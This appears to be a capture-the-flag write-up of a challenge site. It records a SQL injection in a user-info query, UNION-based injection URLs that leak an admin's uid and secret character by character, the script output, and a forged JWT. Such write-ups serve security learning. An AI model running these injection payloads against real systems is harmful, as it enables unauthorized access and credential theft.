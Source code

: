 can access https://gztkmtljeceezgmv.ransommethis.net/jrtwtevqduetiiho/forum

can't access https://gztkmtljeceezgmv.ransommethis.net/jrtwtevqduetiiho/admin

userinfo page has sql injection

```py
infoquery= "SELECT u.memberSince, u.clientsHelped, u.hackersHelped, u.programsContributed FROM Accounts a INNER JOIN UserInfo u ON a.uid = u.uid WHERE a.userName='%s'" %query
```

all admins: https://gztkmtljeceezgmv.ransommethis.net/jrtwtevqduetiiho/adminlist

target user is AccessibleTinderbox

db engine is sqlite

need to leak the uid and secret column values for that user

https://gztkmtljeceezgmv.ransommethis.net/jrtwtevqduetiiho/userinfo?user=AccessibleTinderbox

https://gztkmtljeceezgmv.ransommethis.net/jrtwtevqduetiiho/userinfo?user=AccessibleTinderbox%27%20union%20select%201,%20uid,%20uid,%20uid%20from%20Accounts%20where%20userName%20=%20%27AccessibleTinderbox%27;%20--

uid is 2187

secret is a string, have to leak it char by char as an int
HEX(SUBSTR(secret, 0, 1))

https://gztkmtljeceezgmv.ransommethis.net/jrtwtevqduetiiho/userinfo?user=AccessibleTinderbox%27%20union%20select%201,%20uid,%20uid,%20HEX(SUBSTR(secret,1,1))%20from%20Accounts%20where%20userName%20=%20%27AccessibleTinderbox%27;%20--

$ python leak_secret.py
failed on 6
failed on 7
failed on 8
failed on 16
failed on 21
failed on 22
failed on 24
failed on 26
aYGiC###c19HyuI#YY7B##5#W#wBe3bH

leaked the failing ones with `instr`

full secret: aYGiCMKZc19HyuImYY7Bll5MWNwBe3bH

final jwt
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NjEwODY0NjUsImV4cCI6MTY2MzY3ODQ2NSwidWlkIjoyMTg3LCJzZWMiOiJhWUdpQ01LWmMxOUh5dUltWVk3QmxsNU1XTndCZTNiSCJ9.JGRzyNewMnxabK-iULJ6eLB9WnqOKuduccyBDM8mBIM
```